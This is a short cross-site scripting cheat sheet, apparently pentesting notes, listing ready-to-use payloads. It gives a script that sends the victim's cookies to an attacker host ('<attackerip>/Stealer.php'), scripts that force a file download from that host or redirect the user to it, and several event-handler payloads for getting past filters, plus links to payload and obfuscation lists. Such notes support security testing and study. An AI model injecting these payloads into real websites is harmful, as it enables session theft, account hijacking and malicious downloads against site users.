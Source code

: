 # Cross-Site Scripting

## Payloads

Grab cookies:
```
<script>document.write('<img src="http://<attackerip>/Stealer.php?cookie='%2Bdocument.cookie%2B"/>');</script>
```

Download files:
```
<script>
	var link = document.createElement('a'); 
	link.href = 'https://<attackerip>/file';
	link.download = ''; 
	document.body.appendChild(link);
	link.click();
</script>
```

Redirect User:
```
<script> window.location = "https://<attackerip>"; </script>
```

[XSSHunter](https://xsshunter.com)
Takes screenshots when payload executes and uploads them. This is used to detect if Blind XSS works (for e.g. a payload that only triggers when an admin logs in and views a special page).


More:
http://www.xss-payloads.com/payloads-list.html?c#category=capture

### Obfuscated Payloads

* https://github.com/foospidy/payloads/tree/master/other/xss
* https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
* JsFuck (www.jsfuck.com)
* PolyGlot Payloads (SecLists has some examples)

## Bypass Filters

* `<b onmouseover=alert('XSS')>Click Me!</b>`
* `<svg onload=alert(1)>`
* `<body onload='alert("XSS")'>`
* `<img src="http://<attackerip>" onerror=alert(1);>`
* `<SCRIPT SRC=http://localhost/xss.js?< B >`

## DOM-Based

XSS that is put into variables that rendered back into the page, strictly on the client side.

tags: xss cookies